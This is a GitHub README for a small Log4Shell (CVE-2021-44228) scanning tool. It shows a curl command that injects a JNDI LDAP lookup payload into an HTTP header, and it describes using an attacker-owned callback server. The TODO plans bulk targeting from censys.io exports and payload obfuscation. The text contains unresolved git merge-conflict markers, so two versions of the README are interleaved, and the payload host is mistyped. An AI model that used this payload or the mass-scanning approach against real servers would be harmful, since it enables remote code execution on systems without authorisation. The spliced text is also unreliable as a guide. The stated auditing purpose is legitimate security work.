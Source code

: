 # Little Log4Shellper

Simple tool I wrote on a pleasant Sunday afternoon.  

This tool leverages a log4j vulnerability, [CVE-2021-44228](https://nvd.nist.gov/vuln/detail/CVE-2021-44228). The exploit involves injecting a malicious payload into a GET request header.  

While the original intent was to quickly audit multiple servers, the --payload option could be used to extend that functionality.   

E.g.

```bash
<<<<<<< Updated upstream
curl 127.0.0.1:8080 -H 'X-Api-Version: ${jndi:ldap://1270.0.0.1/a}
```
### Usage
![Imgur](https://i.imgur.com/PlMudwa.png)


### Example
Spin up a test target. In this example I use a vulnerable docker image provided by [@breadchris](https://github.com/breadchris)
![Imgur](https://i.imgur.com/Syt6SvE.png)
=======
curl 127.0.0.1:8080 -H 'X-Api-Version: ${jndi:ldap://1270.0.0.1/o=refence}
```
### Usage
![image.png](https://boostnote.io/api/teams/eAAUv2RbL/files/5c5d35acdd39c1cea1b4012476057b867cc7d0b6dcce35a6579b4c8805859452-image.png)

### Example

Spin up a test target

![image.png](https://boostnote.io/api/teams/eAAUv2RbL/files/44e93d53cc0f2b43551cc2df6da7615cbb0364f9007c2dfa0dc82d3ff7220687-image.png)
>>>>>>> Stashed changes

Spin up or use an attacker owned host.  
In this example I use a free log4shell server hosted by Huntress.
This is but one approach.

<<<<<<< Updated upstream
![Imgur](https://i.imgur.com/1g9wevT.png)


Run logshellper.py
![Imgur](https://i.imgur.com/WCEPj4U.png)


Check results. If the target show up on the attacker's server, the target is exploitable.
![Imgur](https://i.imgur.com/jZYjjmV.png)

### TODO
parse .csv file (i.e. exported form censys.io) to build targets.
add obfu option.

### Thanks
I'd like to thank the teams at Huntress.com, Lunasec.io
and everybody else who shared their research and efforts.

=======
![image.png](https://boostnote.io/api/teams/eAAUv2RbL/files/09035f0d15afe2eb34a28d1aa6a3f0fb0602148b4da54eb084c8fab539d1388b-image.png)

Run logshellper.py

![image.png](https://boostnote.io/api/teams/eAAUv2RbL/files/84b326f78c4a6d0c7b88db8b9b20065e126a8864453e73de038a37902fa8843b-image.png)

Check results. If the target show up on the attacker's server, the target is exploitable.
![image.png](https://boostnote.io/api/teams/eAAUv2RbL/files/0d7cd3edc7fbf29d1e4c05c9d9e15c3b420c238890a92ef4ccb1d01c655ee0e6-image.png)


### TODO
parse .csv file (i.e. exported form censys.io) to build targets.

### Thanks
I'd like to thank the teams at Huntress.com, Lunasec.io
and everybody else who shared their research and efforts.

>>>>>>> Stashed changes
### References
https://www.huntress.com/blog/rapid-response-critical-rce-vulnerability-is-affecting-java   
https://www.lunasec.io/docs/blog/log4j-zero-day/  
https://github.com/drahosj/log4shell-vulnerable-app
